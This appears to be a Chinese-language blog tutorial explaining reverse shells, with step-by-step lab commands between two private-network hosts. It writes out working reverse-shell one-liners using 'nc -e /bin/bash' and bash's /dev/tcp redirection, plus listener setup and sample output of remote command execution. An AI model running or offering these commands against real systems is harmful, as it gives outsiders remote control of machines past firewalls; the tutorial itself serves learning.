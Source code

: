 ```yaml
---
title: 反弹 Shell
icon: rebound
date: 2023-4-12
category: Computer
tag:
  - Linux
---
```


## 什么是 Shell

Shell 就是实现用户命令的接口，通过这个接口我们就能实现对计算机的控制，比如我们常见的 ssh 就是执行的 Shell 命令实现对远程对服务器的控制。

## 什么是反弹 Shell

其英文名叫做 Reverse Shell，就是控制端首先监听某个 TCP/UDP 端口，然后被控制端向这个端口发起一个请求，同时将自己命令行的输入输出转移到控制端，从而控制端就可以输入命令来控制被控端了。

比如说，我们有两台主机 A、B，我们最终想实现在 A 上控制 B。那么如果用正向 Shell，其实就是在 A 上输入 B 的连接地址，比如通过 ssh 连接到 B，连接成功之后，我们就可以在 A 上通过命令控制 B 了。如果用反向 Shell，那就是在 A 上先开启一个监听端口，然后让 B 去连接 A 的这个端口，连接成功之后，A 这边就能通过命令控制 B 了。

## 反弹 Shell 的作用

当我们使用 A 控制 B，但由于被控端因防火墙受限、权限不足、端口被占用等无法直接连接。这时我们就要使用反弹 Shell 让 B 向 A 主动发起连接，我们就可以使用 A 来控制 B 了。

## 使用方法

|  控制端  |  被控制端  |
|  :----:  |  :----:  |
|  IP：192.168.4.151  |  IP：192.168.4.142  |
|  hostname：root@localhost  |  hostname：root@dev_03  |

1. 控制端和被控制端都安装 nc 命令

    ```bash
    yum -y install nc
    ```

2. 监听端口。在控制端上执行 `nc -lvvp 9999` 命令

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )    # 输出结果
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    ```

    - `-l`：监听模式，用于入站连接
    - `-vv`：`-vv` 比 `-v` 更详细的输出
    - `-p`：设置本地端口

3. 发起连接请求。在被控制端上执行 `nc -e /bin/bash [控制端的 IP] 9999` 命令

    ```bash
    root@dev_03:~# nc -e /bin/bash 192.168.4.151 9999
    ```

    - `-e`：绑定命令行

    > 如果没有 `-e` 这个参数，是因为 `nc` 老版本没有这个选项的。需要安装 `netcat-traditional` 这个包，并执行 `update-alternatives --config nc` 这个命令，选择 `/bin/nc.traditional` 的编号，这里选择编号 `2` 即可

4. 控制端接收连接请求。被控制端发起连接请求后，查看控制端

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:39064.
    ```

5. 测试。控制端进行测试

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:39064.

    uname -a
    Linux dev_03 4.15.0-193-generic #204-Ubuntu SMP Fri Aug 26 19:20:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

    ifconfig ens33
    ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.4.142  netmask 255.255.255.0  broadcast 192.168.4.255
            inet6 fe80::20c:29ff:fe14:1e21  prefixlen 64  scopeid 0x20<link>
    ```

## 被控制端使用 bash 发起连接

被控制端也可以不用安装 nc 这个命令发起连接，可以直接使用 bash 来实现。

1. 监听端口。在控制端上执行 `nc -lvvp 9999` 命令

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )    # 输出结果
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    ```

2. 发起连接请求。在被控制端上执行 `bash -i >& /dev/tcp/[控制端的 IP]/9999 0>&1` 命令

    ```bash
    root@dev_03:~# bash -i >& /dev/tcp/192.168.4.151/9999 0>&1
    ```

    - `bash -i`：就是产生一个 bash 交互环境
    - `>&`：可以将 bash 交互环境的输入、输出、错误输出都输出到一个地方
    - `/dev/tcp/[控制端的 IP]/9999`：指的是目标主机的一个连接地址，因为 Linux 环境中所有内容的定义都是以文件的形式存在的，指定这个地址就是让主机和目标主机建立一个 TCP 连接
    - `0>&1`：可以将标准输入和标准输出相结合，重定向给前面标准输出的内容

    通过这样的命令，我们就可以就是将被控制端的标准输出和错误输出都重定向给控制端，并且将控制端的输入都重定向给被控制端，这样我们就可以实现控制端对被控制端的远程控制了。

3. 控制端接收连接请求。被控制端发起连接请求后，查看控制端，会显示被控制端的 localhost

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:34944.
    root@dev_03:~#
    ```

4. 测试。控制端进行测试

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:34944.
    root@dev_03:~#

    root@dev_03:~# uname -a
    uname -a
    Linux dev_03 4.15.0-193-generic #204-Ubuntu SMP Fri Aug 26 19:20:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
    root@dev_03:~#

    root@dev_03:~# ifconfig ens33
    ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.4.142  netmask 255.255.255.0  broadcast 192.168.4.255
            inet6 fe80::20c:29ff:fe14:1e21  prefixlen 64  scopeid 0x20<link>
    root@dev_03:~#
    ```
